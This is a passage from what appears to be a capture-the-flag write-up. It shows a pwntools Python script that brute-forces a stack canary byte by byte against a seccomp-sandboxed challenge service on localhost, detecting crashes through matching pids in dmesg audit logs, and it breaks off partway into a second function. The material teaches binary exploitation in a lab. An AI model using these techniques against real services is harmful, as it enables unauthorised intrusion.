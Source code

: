 Similar to before, but now there's a canary. We can just brute-force it - byte after byte. Notice that due to the `read(0, buf, 0x1000)` call, we have to halt between dispatching inputs towards the remote process. \
Usually we can detect crash criteria due to canary corruption by having `***stack smasing detected***` banner being emitted to `stderr`. However, notice that under the hood, `__stack_chk_fail` actually calls `writev`. Because of the seccomp filter, this results with `Bad Syscall` prompt. We can inspect a generated `dmesg` entry, that describes the crash reason, along with its `pid`. If its `pid` matches the connection we've just launched, we know for sure that stack corruption have occured.

```python
def leak_canary(pad_size, debug=False):
    crash_program = 15
    current = b'A' * pad_size

    # Initialization step, we must create 1 false entry
    with remote('localhost', 1337) as r:
        buf = current + b'A' * 8
        load_program(r, crash_program, buf)
        time.sleep(0.1)
        r.sendline(b'quit')

    canary = b''
    while True:
        for b in range(256):
            log.info(f'canary: {canary} b: {b}')
            with remote('localhost', 1337) as r:
                candidate = current + b.to_bytes(1, 'little')
                load_program(r, crash_program, candidate)
                time.sleep(0.1)
                with process('pgrep -f challenge | tail -n 2', shell=True) as pgrep:
                    r_pid = pgrep.readline()[:-1]
                    r_pid = int(r_pid, 10)
                r.sendline(b'quit')

                time.sleep(0.2)
                with process('dmesg | grep /challenge/toddlersys_level | grep audit | tail -n 1', shell=True) as dmesg:
                    dmesg.recvuntil(b'pid=')
                    crashed_pid = int(dmesg.recvuntil(b' ')[:-1], 10)
                    
                if crashed_pid == r_pid:
                    continue
                
                # Double check
                with process('dmesg | grep /challenge/toddlersys_level | grep audit | tail -n 1', shell=True) as dmesg:
                    dmesg.recvuntil(b'pid=')
                    crashed_pid = int(dmesg.recvuntil(b' ')[:-1], 10)
                
                if crashed_pid != r_pid:
                    log.info(f'NEW BYTE FOUND: {hex(b)}')
                    canary += b.to_bytes(1, 'little')
                    current = candidate
                    if debug:
                        canary = input('write the canary value\n')
                        return int(canary, 16)
                    if len(canary) == 8:
                        return u64(canary)


def get_leaks(canary):
    with remote('localhost', 1337) as r0:
        crash_program = 15
        crashing_yancode = p64(canary)
```

[linux-kernel-labs-vma]: https://linux-kernel-labs.github.io/refs/pull/222/merge/labs/memory_mapping.html
[litux-vma]: https://litux.nl/mirror/kerneldevelopment/0672327201/ch14lev1sec2.html